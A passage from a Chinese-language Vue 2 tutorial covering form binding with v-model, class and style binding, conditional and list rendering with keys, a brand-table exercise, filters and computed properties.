如果想获取数据，我们需要给表单配置 value 值，如：

~~~html
性别：
男 <input type="radio" name="sex" v-model="sex" value="male" /> 
女 <input type="radio" name="sex" v-model="sex" value="female" /><br /><br />
~~~


vue 实例中可以配置默认值（默认勾选）

~~~js
const vm = new Vue({
    el: '#app',
    data: {
        account: '',
        password: '',
        sex: 'female',
    },
})
~~~


### 4. checkbox 复选框

同样 checkbox 复选框默认也是没有 value 值的，当被 v-model 绑定时，用户点击复选框，获取的是复选框的勾选状态值（true, false）

~~~html
爱好：
抽烟 <input type="checkbox" name="hobby" id="" v-model="hobby" /> 
喝酒 <input type="checkbox" name="hobby" id="" v-model="hobby" /> 
烫头 <input type="checkbox" name="hobby" id="" v-model="hobby" /><br /><br />
~~~


~~~js
const vm = new Vue({
    el: '#app',
    data: {
        account: '',
        password: '',
        sex: 'female',
        hobby: '',
    },
})
~~~

> 此时，如果点击复选框，三个复选框会同时勾选，或取消勾选（因为目前 v-model 绑定的是勾选状态）


当配置了 value 值后，还需要注意在 data 中的初始值，如果初始值是字符串，那么获得的依然是 checked 的勾选状态（布尔值），只有当初始值是数组时，哪个 checkbox 被勾选，其 value 值就会被添加到这个数组中。

~~~html
爱好：
抽烟 <input type="checkbox" name="hobby" id="" value="smoke" v-model="hobby" /> 
喝酒 <input type="checkbox" name="hobby" id="" value="drink" v-model="hobby" /> 
烫头 <input type="checkbox" name="hobby" id="" value="haircut" v-model="hobby" /><br /><br />
~~~


初始值配置为数组

~~~js
const vm = new Vue({
    el: '#app',
    data: {
        account: '',
        password: '',
        sex: 'female',
        hobby: [],
        agree: 'false',
    },
})
~~~


如果是确定勾选状态，那么这么绑定没什么问题，如最后一个阅读协议：

~~~html
<input type="checkbox" name="" id="" v-model="agree"/> 阅读并接受 <a href="#" target="_blank">用户协议</a><br /><br />
~~~


~~~js
const vm = new Vue({
    el: '#app',
    data: {
        account: '',
        password: '',
        sex: 'female',
        hobby: '',
        agree:'false'
    },
})
~~~


### 5. select 下拉框

和 text 属性一样，通过 v-model 绑定拿到 value 值

~~~html
所属城市：<select name="city" id="" v-model="city">
        <option value="beijing">北京</option>
        <option value="shanghai">上海</option>
        <option value="guangzhou">广州</option>
        <option value="shenzhen">深圳</option>
        <option value="chongqing">重庆</option></select
      ><br /><br />
~~~


~~~js
const vm = new Vue({
    el: '#app',
    data: {
        account: '',
        password: '',
        sex: 'female',
        hobby: [],
        agree: 'false',
        city: 'beijing',
    },
})
~~~


### 6. textarea 文本框

虽然 textarea 标签文本标签是直接写在标签内部的，但是 v-model 绑定后可以通过 value 值获取数据

~~~html
其他信息：<textarea name="" id="" cols="30" rows="10" v-model="otherInfo"></textarea><br /><br />
~~~


~~~js
const vm = new Vue({
    el: '#app',
    data: {
        account: '',
        password: '',
        sex: 'female',
        hobby: [],
        agree: 'false',
        city: 'beijing',
        otherInfo: '',
    },
})
~~~


### 7. 修饰符处理

如果有了 `<form> ` 标签，那么点击 button 会触发按钮默认跳转事件，可以使用 prevent 修饰符来阻止默认事件

~~~html
<button @click.prevent="submit">提交</button>
~~~


~~~js
const vm = new Vue({
    el: '#app',
    data: {
        account: '',
        password: '',
        sex: 'female',
        hobby: [],
        agree: 'false',
        city: 'beijing',
        otherInfo: '',
    },
    methods: {
        submit() {
            console.log('提交信息')
        },
    },
})
~~~


textarea 可以用 .lazy 修饰符，当失去焦点再获取数据

~~~html
其他信息：<textarea name="" id="" cols="30" rows="10" v-model.lazy="otherInfo"></textarea><br /><br />
~~~


account 账号区域可以使用 .trim 去除空格

~~~html
账号：<input type="text" v-model.trim="account" /> <br /><br />
~~~


age 区域可以使用 number 限定

~~~html
年龄：<input type="number" v-model.number="age" /><br /><br />
~~~


## 案例：绑定 class 样式

### 1. 字符串写法

字符串写法适用于样式的类名不确定，需要动态指定


基本代码如下，需求是点击 div 后，给 div 添加 class

~~~html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <style>
            .basic {
                width: 200px;
                height: 100px;
                border: 1px solid;
            }

            .sky {
                background-color: skyblue;
            }

            .pink {
                background-color: pink;

            }
        </style>
        <script src="./vue.js"></script>
        <title>Document</title>
    </head>
    <body>
        <div id="root">
            <div class="basic">文本内容</div>
        </div>
    </body>
</html>
~~~


其实用之前学的绑定属性和绑定事件就可以完成，如：

~~~html
<div id="root">
    <div class="basic" :class="style" @click="changeStyle">{{name}}</div>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            name: "文本文档",
            style: "sky",
        },
        methods: {
            changeStyle() {
                this.style = "pink";
            },
        },
    });
</script>
~~~

> 这里的 :class 绑定会重新解析 class，并将绑定值绑定到原有 class 上，而不会覆盖原有 class


再添加一个样式，要求可以在三个样式中随机切换

~~~html
<script>
    let vm = new Vue({
        el: "#root",
        data: {
            name: "文本文档",
            style: "sky",
        },
        methods: {
            changeStyle() {
                const arr = ["sky", "pink", "green"];
                const index = Math.floor(Math.random()*3)
                this.style = arr[index];
            },
        },
    });
</script>
~~~


### 2. 数组写法

要绑定样式个数不确定，名字也不确定

~~~html
<div id="root">
    <div class="basic" :class="arr">{{name}}</div>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            name: "文本文档",
            style: "sky",
            arr: ["fontStyle1", "fontStyle2", "fontStyle3"],
        },       
    });
</script>
~~~


### 3. 对象写法

样绑定的样式个数确定，名字也确定，但要动态决定用不用

~~~html
<div id="root">
    <div class="basic" :class="obj" @click="changeStyle">{{name}}</div>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            name: "文本文档",
            obj:{
                fontStyle1:false,
                fontStyle2:true,
                fontStyle3:true,
            }
        },
    });
</script>
~~~


### 4. 绑定内联样式

内联样式 HTML 写法

~~~html
<div class="basic" style="font-size: 40px">{{name}}</div>
~~~


方式一：

直接把 style 中的值用 v-bind 绑定

~~~html
<div id="root">    
    <div class="basic" :style="style">{{name}}</div>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            name: "文本文档",
            style: 'font-size:40px'
        },
    });
</script>
~~~


方式二：

`style="font-size: 40px"` 中 style 的值是一个键值对形式，那么可以将 style 当成一个对象

~~~html
<div id="root">
    <!-- <div class="basic" style="font-size: 40px">{{name}}</div> -->
    <div class="basic" :style="{fontSize:fsize+'px'}">{{name}}</div>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            name: "文本文档",
            fsize: '40'
        },
    });
</script>
~~~

> 注意对象中不能使用 - 符号，需要转换成小驼峰模式，如 font-size 转换为 fontSize。 background-color 转换为 backgroundColor


为了书写方便，可以将对象写在 vm 中，便于多个 style 的管理

~~~html
<div id="root">
    <!-- <div class="basic" style="font-size: 40px">{{name}}</div> -->
    <div class="basic" :style="styleObj">{{name}}</div>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            name: "文本文档",
            styleObj: {
                fontSize:'40px',
            }
        },
    });
</script>
~~~


另外还可以写成数组形式，数字里的元素是对象

~~~html
<div id="root">
    <!-- <div class="basic" style="font-size: 40px">{{name}}</div> -->
    <div class="basic" :style="[styleObj1,styleObj2]">{{name}}</div>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            name: "文本文档",
            styleObj1: {
                fontSize: "40px",
            },
            styleObj2: {
                color: "blue",
                backgroundColor: "orange",
            },
        },
    });
</script>
~~~


同样，为了简单，直接把数组写在 vm 中

~~~html
<div id="root">
    <!-- <div class="basic" style="font-size: 40px">{{name}}</div> -->
    <div class="basic" :style="styleArr">{{name}}</div>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            name: "文本文档",
            styleArr: [
                {
                    fontSize: "40px",
                },
                {
                    color: "blue",
                    backgroundColor: "orange",
                },
            ],
        },
    });
</script>
~~~


## 5. 条件渲染

### 5.1 v-show

如果不使用 vue ，想让元素达到显示和隐藏效果，可以使用原生 js 让 style 变成 `display:none`, `visibility:hideen`, `opacity:0`，在 Vue 中可以使用 v-show 切换元素的显示和隐藏，一般常见网页效果是广告、遮罩层等等。操作CSS样式，修改 display 属性


v-show 的底层原理，是调整元素样式中的 display 来达到隐藏或显示该元素

~~~html
<div id="root">
    <!-- v-show 为 true 显示元素，false 不显示元素 -->
    <h2 v-show="false">Hello {{name}}</h2>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            name: "World",
        },
    });
</script>
~~~


v-show 内容还可以写为一个表达式，只要表达式能返回一个布尔型数据即可控制元素的显示与隐藏

~~~html
<h2 v-show="1==3">Hello {{name}}</h2>
=18">
~~~


在 data 中定义一个 flag ，如 isShow 来控制是否显示，如：

~~~html
<div id="root">
    <h2 v-show="isShow">Hello {{name}}</h2>
    <button @click="toggle">开关</button>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            name: "World",
            isShow: "true",
        },
        methods: {
            toggle() {
                this.isShow = !this.isShow;
            },
        },
    });
</script>
~~~


### 5.2 v-if

v-if 的用法和 v-show 类似，同样可以根据表达式的真假，切换元素的显示和隐藏，和 v-show 不同的是，v-if 是直接操纵DOM元素，直接删除页面元素

~~~html
<div id="app">
  
  
  
</div>
~~~

> 频繁切换使用 v-show，反之使用 v-if。 v-show 消耗资源较少。	


当需要对同一个元素进行判断的时候，每当元素变化，v-if 都要去判断 n 的值，如：

~~~html
<div id="root">
    <h2>现在的 n 值为 {{n}} </h2>
    <div v-if="n==1">Angular</div>
    <div v-if="n==2">React</div>
    <div v-if="n==3">Vue</div>
    <button @click="n++">点我 n+1</button>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            n: 0,
        },
    });
</script>
~~~

> n == 1 时，判断 3 次 if


可以使用 v-else-if，同原生 js 中的 else if 一样，当 if 条件成立时，就不再继续判断

~~~html
<div id="root">
    <h2>现在的 n 值为 {{n}} </h2>
    <div v-if="n==1">Angular</div>
    <div v-else-if="n==2">React</div>
    <div v-else-if="n==3">Vue</div>
    <button @click="n++">点我 n+1</button>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            n: 0,
        },
    });
</script>
~~~


当所有 v-if、v-else-if 条件都不成立，可以使用 v-else

~~~html
<div id="root">
    <h2>现在的 n 值为 {{n}} </h2>
    <div v-if="n==1">Angular</div>
    <div v-else-if="n==2">React</div>
    <div v-else-if="n==3">Vue</div>
    <div v-else>啥也不是</div>
    <button @click="n++">点我 n+1</button>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            n: 0,
        },
    });
</script>
~~~

> 注意 v-else 不用加条件，因为之前用 if， else if 都把条件筛选完了，只有不符合的才轮到 else，同原生条件判断一样。


条件判断过程中，不能有其他块元素打乱结构

~~~html
<div v-if="n==1">Angular</div>
<div v-else-if="n==2">React</div>
<h2>
闲的没事插个H2干什么？
</h2>  
<div v-else-if="n==3">Vue</div>
<div v-else>啥也不是</div>
~~~


template 标签，不会破坏 html 结构，当有多个标签需要对同一个值进行条件判断时，我们可以成这样，但是缺点就是如果有太多元素，每个元素都要加上条件，显得代码繁琐。

~~~html
<div id="root">
    <h2>现在的 n 值为 {{n}} </h2>
    <div v-if="n==1">Angular</div>
    <div v-if="n==1">React</div>
    <div v-if="n==1">Vue</div>
    <button @click="n++">点我 n+1</button>
</div>

<script>
    let vm = new Vue({
        el: "#root",
        data: {
            n: 0,
        },
    });
</script>
~~~


可以给父元素加上判断，如：

~~~html
<div v-if="n==1">
    <div>Angular</div>
    <div>React</div>
    <div>Vue</div>
</div>    
~~~


但是这样就破坏了页面结构，比如有些 js 需要寻找层级元素，可能就被破坏掉了，这时候我们可以使用 tempalte 标签，它只是一个虚拟标签，不会破坏 html 结构。

~~~html
<template v-if="n==1">
    <div>Angular</div>
    <div>React</div>
    <div>Vue</div>
</template> 
~~~

> tempalte 只能配合 v-if，不能配合 v-show


### 5.3 v-show 与 v-if 的区别

- v-show 是通过控制 css 样式， display:none 来达到隐藏、显示的效果
  - 如果要频繁切换元素的显示状态，用 v-show 性能会比较好
- v-if 是通过在虚拟 DOM 中渲染或不渲染来达到显示效果
  - 如果刚进入页面的时候，某些元素默认不需要被显示，而且后期这个元素很可能也不需要被展示，此时 v-if 性能会更高

> 一般来说，性能差不多，直接使用 v-if 就可以了


## 6. 列表渲染

### 6.1 v-for

v-for 用于展示列表数据，可以遍历：

- 数组
- 对象
- 字符串
- 指定次数


使用 v-for 做循环，将 data 数据里的列表遍历

~~~html
<div id="root">
    <ul>
        <li v-for="p in persons">
            {{p.name}} - {{p.age}}
        </li>
    </ul>
</div>

<script>
    new Vue({
        el: "#root",
        data: {
            persons: [
                { id: "001", name: "张三", age: 18 },
                { id: "002", name: "李四", age: 19 },
                { id: "003", name: "王五", age: 20 },
            ],
        },
    });
</script>
~~~


v-for 指令支持一个可选的第二参数，即当前的遍历项的索引值，语法格式为 `(item, index) in items`，如：

~~~html
<div id="root">
    <ul>
        <li v-for="(p, index) in persons">
            {{index}} - {{p.name}} - {{p.age}}
        </li>
    </ul>
</div>

<script>
    new Vue({
        el: "#root",
        data: {
            persons: [
                { id: "001", name: "张三", age: 18 },
                { id: "002", name: "李四", age: 19 },
                { id: "003", name: "王五", age: 20 },
            ],
        },
    });
</script>
~~~


官方建议使用 key 属性绑定索引值，使用 key 属性让遍历对象获得一个身份标识，也就是索引，如：

~~~html
<li v-for="(p,index) in persons" :key="index">
    {{index}} - {{p.name}} - {{p.age}}
</li>
~~~

> 因为 key 算是 li 的属性值，所以需要使用 v-bind


key属性值除了可以用 index 之外，也可以指定 data 中的 id 索引（建议使用id绑定），如：

~~~html
<li v-for="p in persons" :key="p.id">
    {{index}} - {{p.name}} - {{p.age}}
</li>
~~~

> 注意：这里的 key 属性是 Vue 独占的，如果想让 li 拥有诸如 data-index 这样的属性，则可以使用 :data-index="p.id" 这样的写法


v-for 除了可以遍历数组，还可以遍历对象，其中 v 是 value，k 是 key 值

~~~html
<div id="root">
    <ul>
        <li v-for="(v, k) of car" :key="k">
            {{k}} - {{v}}
        </li>
    </ul>
</div>

<script>
    new Vue({
        el: "#root",
        data: {
            car: {
                name: "Audi",
                model: "A4",
                price: "70W",
            },
        },
    });
</script>
~~~

> 遍历关键字使用 in 或 of 都可以


最后遍历字符串（不太常用）

~~~html
<div id="root">
    <ul>
        <li v-for="(char, index) in str" :key="index">
            {{index}} - {{char}}
        </li>
    </ul>
</div>

<script>
    new Vue({
        el: "#root",
        data: {
            str: "hello",
        },
    });
</script>
~~~


遍历指定次数

不涉及 data 中的数据，只遍历次数，类似于 `for (i=1, i<5, i++)`

~~~html
<div id="root">
    <ul>
        <li v-for="(number, index) of 5">
            {{number}} - {{index}}
        </li>
    </ul>
</div>
~~~

> number 从 1 开始遍历，index 依旧从 0 开始计数


### 6.2 遍历中的 key 值

- key 的值只能是字符串或数字类型
- key 的值必须具有唯一性（即：key 的值不能重复）
  - 建议把数据项 id 属性的值作为 key 的值（因为 id 属性具有唯一性）
- 使用 index 的值当做 key 的值没有任何意义（因为 index 的值不具有唯一性）
- 建议使用 v-for 指令时一定要指定 key 的值（既能提升性能、又防止列表状态紊乱）


从数据结构来说，不建议使用 index，如果数据被插入或修改，则会改变 index 值，而 data 中的 id 是从数据库中读取的，具有唯一性


遍历中给 li 绑定的 key 值，就是给节点一个表示，类似身份 id，不建议使用 index，而是使用 data 数据中的 id，这里我们向列表中插入一条新的数据

~~~html
<div id="root">
    <ul>
        <li v-for="(p, index) in persons" :key="index">{{p.name}} - {{p.age}}</li>
    </ul>
    <button @click.once="add">添加老刘</button>
</div>

<script>
    new Vue({
        el: "#root",
        data: {
            persons: [
                { id: "001", name: "张三", age: 18 },
                { id: "002", name: "李四", age: 19 },
                { id: "003", name: "王五", age: 20 },
            ],
        },
        methods: {
            add() {
                const p = { id: "004", name: "老刘", age: 60 };
                this.persons.unshift(p);
            },
        },
    });
</script>
~~~


表面上看没什么问题，如果我们给列表元素后加上 input 框，并且在 input 框中输入内容后，再点击添加新元素的按钮

~~~html
<li v-for="(p, index) in persons" :key="index">{{p.name}} - {{p.age}} <input type="text"></li>
~~~


可以看到，新添加的元素与 input 里边的数据错位了


原理看流程图：


- 首先初始数据 Vue 生成成虚拟 DOM 
- 将虚拟 DOM 转为 真实 DOM 显示在页面上
- 当点击按钮插入数据时，data 中的数据发生改变
- 根据 DIFF 算法生成新的虚拟 DOM
  - 通过 key 值分析，k值一样， input 一样，只有内容不一样（数据被替换为新的数据：老刘）
  - input 里边并没有 value，我们输入的 value 是在真实 DOM 上，所以在虚拟 DOM 中不做更新
  - 转换为新的真实 DOM，原来的 张三- 18 （张三-18），变为了老刘 - 30（张三-18）
  - 最后一个元素没有在旧虚拟 DOM 中找到对应的 key 值，所以被认为是新数据，input 也是新生成的，所以是空的文本框


> 当然，如果使用 push 将元素插入到最末则没有这些问题
>
> 如果 v-for 遍历时不添加 :key 绑定 index 属性，Vue 会默认执行这个动作
>
> 只要有破坏元素顺序的操作，最好都不要用 index 作为 key 值


当遍历中的 key 值为 data 数据中的 id 时：


> 可以看到，由于 data 中的数据与 id 是绑定的，而不会随着数据插入而改变，所以新的虚拟 DOM 可以复用旧的 DOM，只添加新的 DOM 即可。


### 6.3 vue 中 key 的作用（面试题）

- 虚拟 DOM 中 key 的作用

key 是虚拟 DOM 对象的表示，当数据发生变化时，Vue 会根据新数据生成新的虚拟DOM，随后 Vue 进行新虚拟DOM与旧虚拟DOM的差异比较，比较规则如下：

1. 旧虚拟 DOM 中找到了与新虚拟 DOM 相同的 key

- 若虚拟 DOM 中内容没变，直接使用之前的真实 DOM
- 若虚拟 DOM 中内容变了，则生成新的真实DOM，随后替换掉页面中之前的真实DOM


2. 旧虚拟 DOM 中未找到与新虚拟DOM相同的key

- 创建新的真实 DOM，随后渲染到页面


3. 用 index 作为 key 可能会引发的问题

- 若对数据进行添加、逆序删除等破坏顺序操作，则会产生没有必要的真实 DOM 更新，虽然界面显示没有问题，但效率低
- 如果结构中还包含输入类 DOM，则会产生错误的 DOM 更新，界面出现问题


4. 开发中如何选择 key

- 最好使用每条数据的唯一表示作为 key，比如 id、手机号、身份证号、学号等唯一标识
- 如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅永不渲染列表作为展示，使用 index 作为 key 是没有问题的


## 表单案例

### 1. 显示数据


~~~html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <script src="https://cdn.bootcdn.net/ajax/libs/jquery/3.6.0/jquery.min.js"></script>
    <script src="https://cdn.bootcdn.net/ajax/libs/vue/2.6.9/vue.js"></script>
    <link href="https://cdn.bootcdn.net/ajax/libs/twitter-bootstrap/4.5.3/css/bootstrap.css" rel="stylesheet" />
    <script src="https://cdn.bootcdn.net/ajax/libs/twitter-bootstrap/4.5.3/js/bootstrap.min.js"></script>
    <title>Document</title>
  </head>
  <body>
    <div id="app" style="padding: 20px">
      <div class="card">
        <div class="card-header">添加品牌</div>
        <div class="card-body">
          <div class="input-group mb-3">
            <div class="input-group-prepend">
              <span class="input-group-text" id="basic-addon1">品牌名称</span>
            </div>
            <input type="text" class="form-control" placeholder="请输入品牌名称" aria-label="Username" aria-describedby="basic-addon1" />
            <button type="submit" class="btn btn-primary">添加</button>
          </div>
        </div>
      </div>
      <table class="table table-striped">
        <thead>
          <tr>
            <th scope="col">#</th>
            <th scope="col">品牌</th>
            <th scope="col">状态</th>
            <th scope="col">日期</th>
            <th scope="col">操作</th>
          </tr>
        </thead>
        <tbody>
          <tr v-for="item in items" :key="item.id">
            <th scope="row">{{item.id}}</th>
            <td>{{item.name}}</td>
            <td>
              <div class="custom-control custom-switch">
                <input type="checkbox" class="custom-control-input" v-bind:id="'customSwitch'+item.id" v-model="item.state" />
                <label v-if="item.state" class="custom-control-label" v-bind:for="'customSwitch'+item.id">已启用</label>
                <label v-else class="custom-control-label" v-bind:for="'customSwitch'+item.id">已禁用</label>
              </div>
            </td>
            <td>{{item.time}}</td>
            <td><a href="javascript:;">删除</a></td>
          </tr>
        </tbody>
      </table>
    </div>

    <script>
      new Vue({
        el: "#app",
        data: {
          items: [
            { id: "1", name: "宝马", state: true, time: new Date() },
            { id: "2", name: "奥迪", state: false, time: new Date() },
            { id: "3", name: "奔驰", state: true, time: new Date() },
          ],
        },
      });
    </script>
  </body>
</html>

~~~


- v-for 循环数据
- v-model 绑定 state 属性，自动解析为 checked 属性
- v-if、v-else 根据 state 属性判断是否显示已启用
- v-bind 绑定 label 属性（字符串+遍历索引）


### 2. 删除功能

绑定删除方法

~~~html
<td><a @click="del(item.id)" href="javascript:;">删除</a></td>
~~~


过滤 data 中数组返回新的数组

~~~js
methods:{
    del(id){
        // 遍历 list 列表，返回 item.id 不等于 id 的数组，即实现删除 id 项
        this.items = this.items.filter(item=>item.id != id)
    }
}
~~~


### 3. 添加数据

绑定事件，并阻止表单提交的默认事件

~~~html
<form @submit.prevent="add" action="">
~~~


也可以直接绑定在 button 上

~~~html
<button @click="add" type="button" class="btn btn-primary">添加</button>
~~~

> 注意这里的 type 不能是 submit 了，否则还是会跳转


v-model 绑定表单中数据

~~~html
<input v-model.trim="brand" type="text" class="form-control" placeholder="请输入品牌名称" aria-label="Username" aria-describedby="basic-addon1" />
~~~

> 在 data 中定义对应 brand 属性


添加键盘事件，按回车执行指定方法

~~~html
@keyup.enter="add"
~~~


业务处理

~~~js
add() {
    // 如果输入框不为空，将新数据压入 data
    if (this.brand != "") {
        this.items.push({
            id: this.items.length + 1,
            name: this.brand,
            state: false,
            time: new Date(),
        });
        // 清空输入框
        this.brand = "";
    }
},
~~~

> 教程上是定义一个 data 的新属性 nextID: 4，然后每次执行完方法后，自增 ID


## 过滤器 filter（Vue3 废弃）

Vue3 中已经不再支持过滤器，官方建议使用计算属性或方法代替过滤器的使用。


### 1. 私有过滤器

过滤器（filter）是 vue 为开发者提供的功能，常用于文本格式化，过滤器可以用在两个地方：插值表达式 和 v-bind 属性绑定。

过滤器一般添加在 Javascript 表达式的尾部，由 “管道符” 进行调用，如：

~~~html
<!-- 通过 capitalize 过滤器，对 msg 的值进行格式化 -->
<p>{{ msg | capitalize }}</p>
<!-- 通过 formatID 过滤器，对 rawID 的值进行格式化 -->
<div v-bind:id="rawID | formatID"></div>
~~~

> 将要渲染的变量当做参数传递给过滤器函数，然后显示经过函数处理后的返回值


同时，在 vm 中需要定义对应的 filter 方法

~~~js
filters: {
    capitalize(val) {
        const first = val.substr(0, 1).toUpperCase();
        const others = val.slice(1);
        return first + others;
    },
},
~~~

> 过滤器必须要有返回值


### 2. 公有过滤器

在 filters 节点下定义的过滤器，称为私有过滤器，因为它只能处理当前 Vue 实例所控制的 el 区域内的数据，如果希望在多个 vue 实例之间共享过滤器，则可以定义全局过滤器。


全局过滤器，独立于每个 vm 实例之外（实际上定义在了父类上）

~~~js
Vue.filter("capitalize",  function(value) {
    return val.substr(0, 1).toUpperCase() + val.slice(1);
});
~~~

- 第一个参数：全局过滤器函数名
- 第二个参数：过滤器处理函数


定义公有过滤器需要在所有 vm 实例上方定义

~~~js
Vue.filter("capitalize", (val)=> {
    const first = val.substr(0, 1).toUpperCase();
    const others = val.slice(1);
    return first + others;
});
~~~

> 如果公有过滤器与私有过滤器名字重复，根据就近原则使用私有过滤器


### 案例：使用 dayjs.js 完成日期格式化

使用计算属性、Methods 方法完成日期格式化

~~~html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <script src="https://cdn.bootcdn.net/ajax/libs/vue/2.6.9/vue.js"></script>
    <script src="https://cdn.bootcdn.net/ajax/libs/dayjs/1.10.6/dayjs.min.js"></script>
    <title>Document</title>
  </head>
  <body>
    <div id="app">
      <h3>事件戳：{{time}}</h3>
      <h3>{{fmtTime}}</h3>
      <h3>{{geFmtTime()}}</h3>
    </div>

    <script>
      const vm = new Vue({
        el: '#app',
        data: {
          time: 1621561377603,
        },
        computed: {
          fmtTime() {
            return dayjs(this.time).format('YYYY-MM-DD HH-mm-ss')
          },
        },
        methods: {
          geFmtTime() {
            return dayjs(this.time).format('YYYY-MM-DD HH-mm-ss')
          },
        },
      })
    </script>
  </body>
</html>

~~~


使用过滤器

~~~html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="X-UA-Compatible" content="IE=edge" />
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <script src="https://cdn.bootcdn.net/ajax/libs/vue/2.6.9/vue.js"></script>
        <script src="https://cdn.bootcdn.net/ajax/libs/dayjs/1.10.6/dayjs.min.js"></script>
        <title>Document</title>
    </head>
    <body>
        <div id="app">
            <p>{{ date | dateFormat }}</p>
        </div>
        <script>
            Vue.filter("dateFormat", (date) => {
                return dayjs(date).format("YYYY-MM-DD HH:mm:ss")
            });

            vm = new Vue({
                el: "#app",
                data: {
                    date: new Date(),
                },
            });
        </script>
    </body>
</html>

~~~


### 3. 过滤器的连续调用

类似于 Linux 中的通道，过滤器也可以进行串联的调用，即将前一个过滤器的返回值再次传递给下一个过滤器进行处理，如：

~~~html
<p>{{ msg | trim | capitalize }}</p>
~~~


### 4. 过滤器的参数

过滤器中第一个形参永远是 “管道符” 前边传递过来的值（也就是 data 中的属性值），其次可以传递自定义实参

~~~html
{{ message | filterA(arg1, arg2) }}
~~~


例：

~~~html
<h3>现在时间是：{{time | timeFormatter('YYYY-MM-DD HH:mm:ss')}}</h3>
~~~


~~~js
filters: {
    timeFormatter(value, str = 'YYYY_MM_DD HH:mm:ss') {
        return dayjs(value).format(str)
    },
},
~~~


定义公有过滤器，第二个参数是处理函数，处理函数中的第一个形参即 message 传递过来的值，arg1 与 arg2 是本身函数传递过来的参数。

~~~JS
Vue.filter('filterA'(msg, arg1, arg2)=>{
    ...
})
~~~


## 7. 计算属性 computed

计算属性是指通过一系列运算之后，最终得到一个属性值，这个动态计算出来的属性值可以被模板结构或 methods 方法使用。


实现一个可以联动的表单效果，当改动表单中的 value 值，全名文本需要同步


简单表单：

~~~html
<div id="root">
    姓：<input type="text" value="张"><br/>
    名：<input type="text" value="三"><br/>
    全名：？？？？
</div>
~~~


实现效果也很容易，因为需要同步数据，所以需要用到 v-model 指令

~~~html
<div id="root">
    姓：<input type="text" v-model:value="lastName"><br/>
    名：<input type="text" V-model:value="firstName"><br/>
    全名：{{lastName}} - {{firstName}}
</div>
<script>
    vm = new Vue({
        el: "#root",
        data: {
            lastName:'张',
            firstName:'三',
        },
    });
</script>
~~~


### 7.1 插值语法处理数据

但是假设 lastName 是英文，我们想让 lastName 变成大写，并且只显示前三个字符的话，在插值语法中可以使用表达式，所以我们可以直接插入 js 代码，如：

~~~html
<div id="root">
    姓：<input type="text" v-model:value="lastName"><br/>
    名：<input type="text" V-model:value="firstName"><br/>
    全名：{{lastName.toUpperCase().substr(0,3)}} - {{firstName}}
</div>
<script>
    vm = new Vue({
        el: "#root",
        data: {
            lastName:'Jason',
            firstName:'三',
        },
    });
</script>
~~~

> 但是在 Vue 编写风格中不推荐在插值语法中做过多的处理，对于后期维护也不太方便


### 7.2 methods 方法处理数据

如果不在插值语法中修改的话，那么我们来试一下使用 methods 定义一个方法来显示，通过插值语法调用 methods 方法，将 methods 方法中的返回值显示在插值标签中。

~~~html
<div id="root">
    姓：<input type="text" v-model:value="lastName"><br/>
    名：<input type="text" V-model:value="firstName"><br/>
    全名：{{showName()}} - {{firstName}}
</div>
<script>
    vm = new Vue({
        el: "#root",
        data: {
            lastName:'Jason',
            firstName:'三',
        },
        methods:{
            showName(){
                return this.lastName.toUpperCase().substr(0,3);
            }
        }
    });
</script>
~~~

> 使用 v-model 会将标签中的 value 属性与 data 中的数据进行绑定，当 value 值发生变化时，data 数据也会发生变化，并且重新渲染页面。所有插值标签会重新加载，此时 showName 是在插值标签中调用的方法，也会被重新调用，重新调用后就会用新的数据渲染页面，达到数据和页面同步的效果


### 7.3 computed 计算属性

在 vue 实例中，_data 属性的值会被 setter 到 vm 实例中形成实例的属性。同理计算属性也会被放在 vm 实例中，但是它并不存在于 _data 中，因为该属性是通过已有的属性计算得来的，并不是我们直接定义在 data 的属性。


它的原理是底层借助 Object.defineProperty 方法提供的 getter 和 setter

~~~html
<div id="root">
        姓：<input type="text" v-model:value="lastName"><br/>
        名：<input type="text" V-model:value="firstName"><br/>
        全名：{{showName}} - {{firstName}}
    </div>
    <script>
      vm = new Vue({
        el: "#root",
        data: {
          lastName:'Jason',
          firstName:'三',
        },
        computed:{
          showName:{
            // 当 showName 属性被调用时，get() 就会被调用，且返回值就是 showName 的属性值
            get(){
              return this.lastName.toUpperCase().substr(0,3);
            }
          }
        }
      });
    </script>
~~~

> computed 中的属性也被挂载到了 vm 实例中，get() 方法中的 this 指向 vm 实例


### 7.4 methods 和 computed 区别

computed 中，get() 初次读取 showName，渲染页面并将 showName 值放入缓存，如果多次调用该计算属性，那么 get() 不会再次调用，而是从缓存中读取数据。而 showName 所依赖的属性发生变化时，showName 值也需要做出改变，这时会重新调用 get() 更新属性值


什么时候 get() 被调用：

- 有人读取计算属性时
- 当依赖属性值发生变化时


插值语法多次调用 computed 属性

~~~html
<div id="root">
        姓：<input type="text" v-model:value="lastName"><br/>
        名：<input type="text" V-model:value="firstName"><br/>
        全名：{{showName}}<br/>
        全名：{{showName}}<br/>
        全名：{{showName}}<br/>
    </div>
    <script>
      vm = new Vue({
        el: "#root",
        data: {
          lastName:'Jason',
          firstName:'三',
        },
        computed:{
          showName:{
            get(){
              console.log('get 被调用了');
